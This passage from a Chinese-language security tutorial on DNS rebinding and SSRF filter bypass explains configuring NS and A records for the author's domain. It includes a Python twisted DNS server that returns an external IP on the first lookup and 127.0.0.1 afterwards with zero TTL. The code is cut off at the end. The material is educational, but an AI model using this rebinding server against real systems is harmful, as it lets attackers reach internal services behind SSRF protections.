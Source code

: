 

### 1.3 NS记录+自建DNS服务器

此方法需要再我们DNS解析配置一条NS记录和一条A记录

![image-20220112161403319](DNS重绑定与SSRF绕过/image-20220112161403319.png)

ns记录表示域名`test.p0melo.top`这个子域名指定由`ns.p0melo.top`这个域名服务器来解析，然后a记录表示我的这个`ns.p0melo.top`的位置在ip地址`149.248.18.38`上。然后我们用python的twisted库搭建一个DNS服务器就可以了。

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server

record={};

class DynamicResolver(object):

    def _doDynamicResponse(self, query):
        name = query.name.name

        if name not in record or record[name]<1:
            ip="149.248.18.38"
        else:
            ip="127.0.0.1"

        if name not in record:
            record[name]=0
        record[name]+=1

        print name+" ===> "+ip

        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional

    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
    )

    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53, protocol)
    reactor.run()



if __name__ == '__main__':
```